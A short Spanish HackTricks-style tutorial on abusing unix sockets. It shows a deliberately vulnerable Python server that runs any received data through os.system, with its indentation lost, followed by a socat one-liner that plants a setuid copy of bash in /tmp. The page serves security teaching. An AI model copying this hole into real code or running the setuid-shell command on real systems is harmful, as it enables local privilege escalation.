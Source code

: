 {{#include ../../banners/hacktricks-training.md}}

## Ejemplo de enlace de socket con Python

En el siguiente ejemplo se **crea un socket unix** (`/tmp/socket_test.s`) y todo lo **recibido** va a ser **ejecutado** por `os.system`. Sé que no vas a encontrar esto en la vida real, pero el objetivo de este ejemplo es ver cómo se ve un código que utiliza sockets unix y cómo gestionar la entrada en el peor de los casos.
```python:s.py
import socket
import os, os.path
import time
from collections import deque

if os.path.exists("/tmp/socket_test.s"):
os.remove("/tmp/socket_test.s")

server = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
server.bind("/tmp/socket_test.s")
os.system("chmod o+w /tmp/socket_test.s")
while True:
server.listen(1)
conn, addr = server.accept()
datagram = conn.recv(1024)
if datagram:
print(datagram)
os.system(datagram)
conn.close()
```
**Ejecuta** el código usando python: `python s.py` y **verifica cómo el socket está escuchando**:
```python
netstat -a -p --unix | grep "socket_test"
(Not all processes could be identified, non-owned process info
will not be shown, you would have to be root to see it all.)
unix  2      [ ACC ]     STREAM     LISTENING     901181   132748/python        /tmp/socket_test.s
```
**Explotar**
```python
echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash; chmod +x /tmp/bash;" | socat - UNIX-CLIENT:/tmp/socket_test.s
```
{{#include ../../banners/hacktricks-training.md}}
